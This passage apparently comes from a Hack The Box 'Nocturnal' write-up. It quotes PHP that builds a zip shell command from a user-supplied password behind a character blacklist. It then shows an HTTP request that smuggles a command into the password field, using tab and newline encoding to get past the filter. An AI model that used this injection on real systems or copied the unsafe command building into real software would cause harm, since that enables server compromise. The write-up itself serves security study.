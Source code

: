 It appears this user has admin priviliges. The admin panel looks as such:
![](/assets/img/HTB/Nocturnal/HTB-Nocturnal-adminpanel.png)

Inspecting the file `admin.php` shows how the admin panel works, and how backups are generated. The most interesting part is the following lines:

```php
$command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
...
$blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];
```

This shows that the password entered for the zip file will be used in the above command. Note also that there is a dedicated function for sanitizing the password input.
We can get around this by changing the request after it has passed the sanitizing check using BurpSuite:

```
POST /admin.php?view=admin.php HTTP/1.1
Host: nocturnal.htb
...
Referer: http://nocturnal.htb/admin.php?view=admin.php
Cookie: PHPSESSID=djqjj9dug8sh85e97u6q0eimmc
Upgrade-Insecure-Requests: 1
Priority: u=0, i

password=bash%09-c%09"whoami"%0A&backup=
```
